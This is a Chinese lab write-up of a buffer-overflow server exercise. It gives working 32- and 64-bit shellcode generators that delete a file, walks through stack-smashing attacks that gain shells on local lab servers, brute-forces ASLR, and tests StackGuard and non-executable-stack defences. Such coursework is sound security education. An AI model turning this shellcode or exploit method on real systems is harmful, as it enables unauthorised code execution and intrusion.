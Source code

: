 ```yaml
---
hide:
  #- navigation # 显示右
  #- toc #显示左
  - footer
  - feedback
# comments: true
---  
```


# Buffer Overflow Server

## 任务 1：熟悉 Shellcode

首先，我们在机器中新建一个任意的文件 `/tmp/deletefile`，修改 Shellcode，使得它能够删除这个文件，shellcode_32.py 如下：

```python title="shellcode_32.py"
#!/usr/bin/python3
import sys

# You can use this shellcode to run any command you want
shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   "/bin/rm /tmp/deletefile                                   *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

content = bytearray(200)
content[0:] = shellcode

# Save the binary code to file
with open('codefile_32', 'wb') as f:
  f.write(content)
```

同理，shellcode_64.py 如下：

```python title="shellcode_64.py"
#!/usr/bin/python3
import sys

# You can use this shellcode to run any command you want
shellcode = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   "/bin/rm /tmp/deletefile                                   *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

content = bytearray(200)
content[0:] = shellcode

# Save the binary code to file
with open('codefile_64', 'wb') as f:
  f.write(content)
```

编译并运行结果如下：

![](../../../../../assets/Pasted%20image%2020250708174403.png)

可以看到，我们成功实现了删除 `/tmp/deletefile` 文件的功能
***
## 任务 2：第一关

首先利用命令 `echo hello | nc 10.9.0.5 9090` 来获取服务器的帧指针和缓冲区地址：

![](../../../../../assets/Pasted%20image%2020250708212251.png)

我们可以构建 Payload 如下：

![](../../../../../assets/Pasted%20image%2020250708212315.png)

其中 start 控制 shellcode 的位置，ret 覆盖成 NOP 的指令区域范围内即可，offset 即我们之前得到的 ebp 与 buffer 地址之差再加 4，运行并验证：

![](../../../../../assets/Pasted%20image%2020250708211924.png)

可以看到，我们成功获取到了 server 的 shell
***
## 任务 3：第二关

同样，我们还是通过 `echo hello | nc 10.9.0.6 9090` 来获取信息：

![](../../../../../assets/Pasted%20image%2020250708212704.png)

此时我们获得了 Buffer 地址，但是帧指针地址却没有了，而我们知道缓冲区大小范围在 `[100,200]` 之间，因此我们在 Buffer 最大的情况下选取一个合适的返回地址，并在这个范围内全部覆盖成这个地址，那么不管怎么样我们都会覆盖到栈上真实的返回地址位置，代码如下：

![](../../../../../assets/Pasted%20image%2020250709205726.png)

运行并验证：

![](../../../../../assets/Pasted%20image%2020250709205635.png)
***
## 任务 4：第三关

同理，我们先去获得 Buffer 地址和帧指针信息：

![](../../../../../assets/Pasted%20image%2020250710114723.png)

这一关的唯一难度在于，64 位的地址不可避免地会出现 0x00 字节，因此我们需要将 shellcode 挪到前面来（即存到 buffer 当中），将返回地址改为 buffer 的地址，这样即使出现 0x00 字节被截断了，栈上的 0x00 字节也会被我们复用，代码如下：

![](../../../../../assets/Pasted%20image%2020250710155636.png)

运行并验证：

![](../../../../../assets/Pasted%20image%2020250710155808.png)

可以看到，我们成功获取到了 server 的 shell
***
## 任务 5：第四关

同样，我们先去获得 Buffer 地址和帧指针信息：

![](../../../../../assets/Pasted%20image%2020250710155944.png)

对比起第三关，这一关的 buffer 大小只有 96 字节，shellcode 放不下，但是因为在 stack 源码当中采用 `strcpy(buffer, str)`，我们的 shellcode 被完整地保存在了 str 中！因此我们需要将返回地址改为 str 在栈上的地址即可，用 `gcc -DBUF_SIZE=80 -DSHOW_FP -z execstack -fno-stack-protector -o stack -g stack.c` 编译源码 stack.c 并用 gdb 调试：

![](../../../../../assets/Pasted%20image%2020250710162453.png)

得到 str 相对 buffer 的 offset 为 1168，那么可以编写 Payload：

![](../../../../../assets/Pasted%20image%2020250710163000.png)

运行并验证：

![](../../../../../assets/Pasted%20image%2020250710162929.png)
***
## 任务 6：防御机制（地址随机化)

重新启用地址空间布局随机化，向第一关和第三关服务器多次发送 hello 信息：

![](../../../../../assets/Pasted%20image%2020250710163256.png)

可以看到，每次发送消息，缓冲区地址和帧指针地址都不一样了，因此我们只能由此知道缓冲区的大小，无法直接获得缓冲区的地址，使得攻击更加困难

使用脚本我们反复进行攻击：

![](../../../../../assets/Pasted%20image%2020250711221536.png)

![](../../../../../assets/Pasted%20image%2020250711221546.png)

在 13 分钟时才成功攻击到
***
## 任务 7：其他防护措施

### 任务 7.a：启用 StackGuard 防护

利用命令行 `gcc -DBUF_SIZE=100 -DSHOW_FP -z execstack -o stack stack.c` 启用 StackGuard 防护重启编译，并输入 badfile：

![](../../../../../assets/Pasted%20image%2020250711223308.png)

StackGuard 防护检测到栈溢出和崩溃，所以终止程序，攻击并没有成功
***
### 任务 7.b：启用不可执行栈防护

重新编辑 shellcode 下的 Makefile，去掉 `-z execstack` 选项，重新编译并运行：

![](../../../../../assets/Pasted%20image%2020250711223745.png)

可以看到，发生了段错误。程序访问了不可执行的栈空间，导致发生了段错误。当栈被设置为不可执行时，任何试图在栈上执行的指令都会触发 `Segmentation fault` 错误